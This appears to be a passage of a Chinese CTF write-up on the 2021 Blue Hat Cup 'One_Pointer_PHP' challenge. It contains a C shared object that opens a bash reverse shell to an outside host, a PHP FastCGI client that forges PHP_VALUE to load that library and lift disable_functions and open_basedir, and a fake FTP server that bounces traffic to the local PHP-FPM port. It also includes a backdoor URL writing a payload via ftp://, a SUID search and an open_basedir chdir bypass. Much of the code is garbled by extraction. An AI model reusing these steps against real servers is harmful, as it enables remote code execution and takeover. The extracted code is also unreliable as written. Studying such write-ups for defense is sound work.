1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 server {$uri $uri / =404;$fastcgi_script_name ;
这里看到其FastCGI开在了9001端口，接下来就是写恶意ftp服务了，写之前先准备好.so文件（下面看的wp）
1 2 3 4 5 6 7 8 9 10 #define _GNU_SOURCE #include <stdlib.h> #include <stdio.h> #include <string.h> void preload (void ) {"bash -c 'bash -i >& /dev/tcp/47.xxx.xxx.72/2333 0>&1'" );
通过 shared 命令编译：
1 gcc hpdoger.c -fPIC -shared -o hpdoger.so

之后上传到靶机的html目录下即可
这里使用的wget下载
构造FastCGI请求PHP-CGI
这里用gopherus的话还需要修改很多东西，因此直接修改exp了：fcgi_jailbreak.php
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 120 121 122 123 124 125 126 127 128 129 130 131 132 133 134 135 136 137 138 139 140 141 142 143 144 145 146 147 148 149 150 151 152 153 154 155 156 157 158 159 160 161 162 163 164 165 166 167 168 169 170 171 172 173 174 175 176 177 178 179 180 181 182 183 184 185 186 187 188 189 190 191 192 193 194 195 196 197 198 199 200 201 202 203 204 205 206 207 208 209 210 211 212 213 214 215 216 217 218 219 220 221 222 223 224 225 226 227 228 229 230 231 232 233 234 235 236 237 238 239 240 241 242 243 244 245 246 247 248 249 250 251 252 253 254 255 256 257 258 259 260 261 262 263 264 265 266 267 268 269 270 271 272 273 274 275 276 277 278 279 280 281 282 283 284 285 286 287 288 289 290 291 292 293 294 295 296 297 298 299 300 301 302 303 304 305 306 307 308 309 310 311 312 313 314 315 316 317 318 319 320 321 322 323 324 325 326 327 328 329 330 331 332 333 334 335 336 337 338 339 340 341 342 343 344 345 346 347 348 349 350 <?php class FCGIClient const VERSION_1 = 1 ;const BEGIN_REQUEST = 1 ;const ABORT_REQUEST = 2 ;const END_REQUEST = 3 ;const PARAMS = 4 ;const STDIN = 5 ;const STDOUT = 6 ;const STDERR = 7 ;const DATA = 8 ;const GET_VALUES = 9 ;const GET_VALUES_RESULT = 10 ;const UNKNOWN_TYPE = 11 ;const MAXTYPE = self ::UNKNOWN_TYPE ;const RESPONDER = 1 ;const AUTHORIZER = 2 ;const FILTER = 3 ;const REQUEST_COMPLETE = 0 ;const CANT_MPX_CONN = 1 ;const OVERLOADED = 2 ;const UNKNOWN_ROLE = 3 ;const MAX_CONNS = 'MAX_CONNS' ;const MAX_REQS = 'MAX_REQS' ;const MPXS_CONNS = 'MPXS_CONNS' ;const HEADER_LEN = 8 ;private $_sock = null ;private $_host = null ;private $_port = null ;private $_keepAlive = false ;public function __construct ($host , $port = 9001 and default value for port , just for unixdomain socket {$this ->_host = $host ;$this ->_port = $port ;public function setKeepAlive ($b {$this ->_keepAlive = (boolean )$b ;if (!$this ->_keepAlive && $this ->_sock) {fclose ($this ->_sock);public function getKeepAlive ( {return $this ->_keepAlive;private function connect ( {if (!$this ->_sock) {$this ->_sock = stream_socket_client ($this ->_host, $errno , $errstr , 5 );if (!$this ->_sock) {throw new Exception ('Unable to connect to FastCGI application' );private function buildPacket ($type , $content , $requestId = 1 {$clen = strlen ($content );return chr (self ::VERSION_1 ) chr ($type ) chr (($requestId >> 8 ) & 0xFF ) chr ($requestId & 0xFF ) chr (($clen >> 8 ) & 0xFF ) chr ($clen & 0xFF ) chr (0 ) chr (0 ) $content ; private function buildNvpair ($name , $value {$nlen = strlen ($name );$vlen = strlen ($value );if ($nlen < 128 ) {$nvpair = chr ($nlen );else {$nvpair = chr (($nlen >> 24 ) | 0x80 ) . chr (($nlen >> 16 ) & 0xFF ) . chr (($nlen >> 8 ) & 0xFF ) . chr ($nlen & 0xFF );if ($vlen < 128 ) {$nvpair .= chr ($vlen );else {$nvpair .= chr (($vlen >> 24 ) | 0x80 ) . chr (($vlen >> 16 ) & 0xFF ) . chr (($vlen >> 8 ) & 0xFF ) . chr ($vlen & 0xFF );return $nvpair . $name . $value ;private function readNvpair ($data , $length = null {$array = array ();if ($length === null ) {$length = strlen ($data );$p = 0 ;while ($p != $length ) {$nlen = ord ($data {$p ++});if ($nlen >= 128 ) {$nlen = ($nlen & 0x7F << 24 );$nlen |= (ord ($data {$p ++}) << 16 );$nlen |= (ord ($data {$p ++}) << 8 );$nlen |= (ord ($data {$p ++}));$vlen = ord ($data {$p ++});if ($vlen >= 128 ) {$vlen = ($nlen & 0x7F << 24 );$vlen |= (ord ($data {$p ++}) << 16 );$vlen |= (ord ($data {$p ++}) << 8 );$vlen |= (ord ($data {$p ++}));$array [substr ($data , $p , $nlen )] = substr ($data , $p +$nlen , $vlen );$p += ($nlen + $vlen );return $array ;private function decodePacketHeader ($data {$ret = array ();$ret ['version' ] = ord ($data {0 });$ret ['type' ] = ord ($data {1 });$ret ['requestId' ] = (ord ($data {2 }) << 8 ) + ord ($data {3 });$ret ['contentLength' ] = (ord ($data {4 }) << 8 ) + ord ($data {5 });$ret ['paddingLength' ] = ord ($data {6 });$ret ['reserved' ] = ord ($data {7 });return $ret ;private function readPacket ( {if ($packet = fread ($this ->_sock, self ::HEADER_LEN )) {$resp = $this ->decodePacketHeader ($packet );$resp ['content' ] = '' ;if ($resp ['contentLength' ]) {$len = $resp ['contentLength' ];while ($len && $buf =fread ($this ->_sock, $len )) {$len -= strlen ($buf );$resp ['content' ] .= $buf ;if ($resp ['paddingLength' ]) {$buf =fread ($this ->_sock, $resp ['paddingLength' ]);return $resp ;else {return false ;public function getValues (array $requestedInfo {$this ->connect ();$request = '' ;foreach ($requestedInfo as $info ) {$request .= $this ->buildNvpair ($info , '' );fwrite ($this ->_sock, $this ->buildPacket (self ::GET_VALUES , $request , 0 ));$resp = $this ->readPacket ();if ($resp ['type' ] == self ::GET_VALUES_RESULT ) {return $this ->readNvpair ($resp ['content' ], $resp ['length' ]);else {throw new Exception ('Unexpected response type, expecting GET_VALUES_RESULT' );public function request (array $params , $stdin {$response = '' ;$request = $this ->buildPacket (self ::BEGIN_REQUEST , chr (0 ) . chr (self ::RESPONDER ) . chr ((int ) $this ->_keepAlive) . str_repeat (chr (0 ), 5 ));$paramsRequest = '' ;foreach ($params as $key => $value ) {$paramsRequest .= $this ->buildNvpair ($key , $value );if ($paramsRequest ) {$request .= $this ->buildPacket (self ::PARAMS , $paramsRequest );$request .= $this ->buildPacket (self ::PARAMS , '' );if ($stdin ) {$request .= $this ->buildPacket (self ::STDIN , $stdin );$request .= $this ->buildPacket (self ::STDIN , '' );echo ('data=' .urlencode ($request ));?> <?php $filepath = "/var/www/html/add_api.php" ; $req = '/' .basename ($filepath );$uri = $req .'?' .'command=whoami' ; $client = new FCGIClient ("unix:///var/run/php-fpm.sock" , -1 );$code = "<?php system(\$_REQUEST['command']); phpinfo(); ?>" ; $php_value = "unserialize_callback_func = system\nextension_dir = /var/www/html\nextension = hpdoger.so\ndisable_classes = \ndisable_functions = \nallow_url_include = On\nopen_basedir = /\nauto_prepend_file = " ;$params = array ('GATEWAY_INTERFACE' => 'FastCGI/1.0' ,'REQUEST_METHOD' => 'POST' ,'SCRIPT_FILENAME' => $filepath ,'SCRIPT_NAME' => $req ,'QUERY_STRING' => 'command=whoami' ,'REQUEST_URI' => $uri ,'DOCUMENT_URI' => $req ,'PHP_VALUE' => $php_value ,'SERVER_SOFTWARE' => '80sec/wofeiwo' ,'REMOTE_ADDR' => '127.0.0.1' ,'REMOTE_PORT' => '9001' , 'SERVER_ADDR' => '127.0.0.1' ,'SERVER_PORT' => '80' ,'SERVER_NAME' => 'localhost' ,'SERVER_PROTOCOL' => 'HTTP/1.1' ,'CONTENT_LENGTH' => strlen ($code )echo $client ->request ($params , $code )."\n" ;?>
通过在FastCGI协议修改PHP_VALUE字段进而修改php.ini中的一些设置，而open_basedir 同样可以通过此种方法进行设置。比如：$php_value = "open_basedir = /";
因为FPM没有判断请求的来源是否必须来自Webserver。根据PHP解析器的流程，我们可以伪造FastCGI向FPM发起请求，PHP_VALUE相当于改变.ini中的设置，覆盖了本身的open_basedir
编译得到payload
1 2 3 4 5 data=%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%02H%00%00%11%0BGATEWAY_INTERFACEFastCGI%2F1.0%0E%04REQUEST_METHODPOST%0F%19SCRIPT_FILENAME%2Fvar%2Fww
然后执行以下脚本自己 vps 上搭建一个恶意的 ftp 服务器：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 import socket'0.0.0.0' , 23 ))1 )b'220 welcome\n' )b'331 Please specify the password.\n' )b'230 Login successful.\n' )b'200 Switching to Binary mode.\n' )b'550 Could not get the file size.\n' )b'150 ok\n' )b'227 Entering Extended Passive Mode (127,0,0,1,0,9001)\n' ) b'150 Permission denied.\n' )b'221 Goodbye.\n' )
随后在vps上开启上述ftp服务，并且开一个端口进行监听
最后用一个eval构造恶意代码file_put_contents，与我们的vps的ftp建立连接
1 2 3 4 5 /add_api.php?backdoor=$file=$_GET['file'];$data=$_GET['data'];file_put_contents($file,$data);&file=ftp://aaa@124.220.233.26:23/123&data=%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%02%3F%00%00%11%0BGATEWAY_INTERFACEFastCGI%2F1.0%0E%04REQUEST_METHODPOST%0F%19SCRIPT_FILENAME%2Fvar%2F
将上述内容发送后即可成功反弹shell
读取的时候发现权限不够，这里需要提权，至于原理一会儿讨论
利用suid提权方式，查看具有suid权限的文件，这个要等一会才能出来。
1 find / -perm -u=s -type f 2>/dev/null
这里看到有PHP权限，直接php -a进入交互模式读取，但这里如果直接读取flag的话还是有open_basedir的限制，因此还需要利用上述的方法绕过，这里写文件比较方便，但我就直接输入了。
1 mkdir ('gyy' );chdir ('gyy' );ini_set ('open_basedir' ,'..' );chdir ('..' );chdir ('..' );chdir ('..' );chdir ('..' );chdir ('..' );chdir ('..' );chdir ('..' );ini_set ('open_basedir' ,'/' );var_dump (file_get_contents ("/flag" ));
蚁剑插件绕过
这里看到有个wp说利用蚁剑的插件可以直接梭哈了，学一波，大概就是修改一下蚁剑的插件，省去vps打脚本的过程。蚁剑里有通过攻击 PHP-FPM 绕过 Disable_Functions 的插件，自行去商店下载即可
但是这里需要对插件进行修改
插件中的payload使用了fsockopen()，但是fsockopen()被ban了，并且并且蚁剑的插件中没有 PHP-FPM 地址为 127.0.0.1:9001 的选项。但是pfsockopen()没有被ban 而且两者没有任何区别，将这两个文件下的fsockopen()改成pfsockopen()
但是没玩懂，跟着做也不行，感兴趣的自己参考文章吧：[2021 蓝帽杯]one_Pointer_php 复现
0x05 总结
这里在回顾整理上述攻击的思路：首先就是对于PHP数组的溢出绕过，之后发现可以写木马了，蚁剑连接发现权限不够，因此要想着拿shell，去进一步的提权，接着发现了open_basedir的限制以及FastCGI服务开启了。
于是我们想着绕过open_basedir来读取FastCGI相关配置信息（因为file_put_contents函数没有禁用，完全可以通过这个函数来ssrf+ftp来打），最后成功读取到了开启的端口为9001，但我们如何才能反弹shell呢，这时候我们又看到了一个拓展extension，这里竟然允许加载.so文件，那我们就能构造恶意的.so文件来拿shell。
但目前为止我们只能在html目录下读写，且没有执行权限，那如何让靶机执行我们的.so文件呢，这时候就想到ftp的作用了。首先我们构造FastCGI的请求PHP-CGI，通过对其中的某些信息的修改（修改为9001端口，这里用于让靶机自己访问自己的9001端口，然后在其中还要写明待加载的恶意.so文件目录以及覆盖open_basedir为根目录）。
这里就相当于我们写的FastCGI协议的内容就是恶意代码，之后我们开启了ftp服务，并且让靶机访问了我们的ftp服务，访问之后我们的ftp服务器会让靶机读取我们指定的ip和端口（127.0.0.1和9001），这样的话他实际上就是去读取或写入到自己服务器上9001的内容，同时我们发送上述得到的FastCGI协议的恶意代码，这段代码在file_put_contents函数的作用下就传到了端口9001中，也就是fpm接受到了一个二进制数据流，随后该fpm就会执行这段数据，我们的恶意代码也就成功被执行，拿到shell
在学了上述知识，接下来还有一些不懂得点，open_basedir的绕过需要总结一手，suid提权复习一手，extension=xx.so不太懂，ret=127不理解，接下来就再写一篇文章来解决！！！
0x06 参考文章
ubuntu下nginx+PHP-FPM安装
Fastcgi协议分析 && PHP-FPM未授权访问漏洞 && Exp编写
Fastcgi 协议分析与 PHP-FPM 攻击方法
SSRF系列之攻击FastCGI
利用SSRF攻击内网FastCGI协议
陇原战“疫“2021网络安全大赛 Web eaaasyphp
陇原战疫2021网络安全大赛
wooyun-2014-071540
PHP绕过open_basedir列目录的研究
蓝帽杯One_Pointer_PHP复现总结
蓝帽杯2021 One Pointer PHP
蓝帽杯2021一道题——One_Pointer_PHP
从PHP底层看open_basedir bypass